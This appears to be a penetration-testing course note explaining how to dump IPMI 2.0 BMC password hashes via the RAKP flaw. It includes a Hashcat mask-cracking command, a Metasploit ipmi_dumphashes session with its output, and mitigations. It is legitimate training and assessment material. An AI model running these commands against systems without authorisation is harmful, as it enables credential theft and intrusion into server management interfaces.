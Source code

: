 ```yaml
---
tags:
  - Pentesting
  - Information_Gathering
  - IPMI
---
```

If default credentials do not work to access a BMC, we can turn to a [flaw](http://fish2.com/ipmi/remote-pw-cracking.html) in the RAKP protocol in IPMI 2.0. During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes place. This can be leveraged to obtain the password hash for ANY valid user account on the BMC. These password hashes can then be cracked offline using a dictionary attack using `Hashcat` mode `7300`. In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` which tries all combinations of upper case letters and numbers for an eight-character password.

There is no direct "fix" to this issue because the flaw is a critical component of the IPMI specification. Clients can opt for very long, difficult to crack passwords or implement network segmentation rules to restrict the direct access to the BMCs. It is important to not overlook IPMI during internal penetration tests (we see it during most assessments) because not only can we often gain access to the BMC web console, which is a high-risk finding, but we have seen environments where a unique (but crackable) password is set that is later re-used across other systems. On one such penetration test, we obtained an IPMI hash, cracked it offline using Hashcat, and were able to SSH into many critical servers in the environment as the root user and gain access to web management consoles for various network monitoring tools.

To retrieve IPMI hashes, we can use the Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/) module.

#### Metasploit Dumping Hashes

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Here we can see that we have successfully obtained the password hash for the user `ADMIN`, and the tool was able to quickly crack it to reveal what appears to be a default password `ADMIN`. From here, we could attempt to log in to the BMC, or, if the password were something more unique, check for password re-use on other systems. IPMI is very common in network environments since sysadmins need to be able to access servers remotely in the event of an outage or perform certain maintenance tasks that they would traditionally have had to be physically in front of the server to complete. This ease of administration comes with the risk of exposing password hashes to anyone on the network and can lead to unauthorized access, system disruption, and even remote code execution. Checking for IPMI should be part of our internal penetration test playbook for any environment we find ourselves assessing.